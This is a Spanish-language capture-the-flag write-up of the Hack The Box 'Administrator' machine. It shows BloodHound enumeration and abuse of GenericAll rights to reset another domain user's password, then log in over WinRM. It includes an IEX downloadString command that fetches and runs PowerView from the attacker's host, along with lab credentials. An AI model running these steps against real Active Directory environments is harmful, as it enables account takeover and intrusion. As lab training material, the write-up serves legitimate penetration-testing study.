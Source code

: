 ## BloodHound Enumeration

Realizaremos una enumeración con **BloodHound** a través de **bloodhound-python.**

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -u Olivia -p 'ichliebedich' -d administrator.htb -ns 10.10.11.42
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2520_vmware_OzHdWH2alo.png" alt=""><figcaption></figcaption></figure>

## Initial Acess

### Abusing GenericAll privileges (Changing user credentials from Powershell)

Revisando vectores de ataque desde BloodHound, verificamos que a través del usuario que disponemos (olivia@administrator.htb) tiene privilegios de **GenericAll** sobre el usuario (michael@administrator.htb).

<figure><img src="../../../.gitbook/assets/2521_vmware_elawmgnG3j.png" alt=""><figcaption></figcaption></figure>

Esto significa que podemos realizar un cambio de contraseña al usuario objetivo, en este caso, como tenemos acceso a la máquina Windows, podemos realizar el "Windows Abuse".

<figure><img src="../../../.gitbook/assets/2522_vmware_zVJe0sdif1.png" alt=""><figcaption></figcaption></figure>

Volveremos a la terminal del WinRM, importaremos el módulo de _PowerView.ps1_ que disponemos en nuestra Kali y procederemos a asignarle una nueva contraseña al usuario (michael@administrator.htb).

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">ls PowerView.ps1
<strong>
</strong><strong>python3 -m http.server 80
</strong>
IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword 
</code></pre>

<figure><img src="../../../.gitbook/assets/2523_vmware_9T26ZtfclK.png" alt=""><figcaption></figcaption></figure>

Verificaremos que se han modificado las credenciales de usuario (michael@administrator) a través de **netexec**. Comprobamos que se ha realizado el cambio y además nos aparece como **pwn3d**, lo cual indica que podemos conectarnos remotamente al DC.

Accederemos a través del WinRM con el nuevo usuario obtenido.

```bash
netexec winrm 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'

evil-winrm -i 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'
```
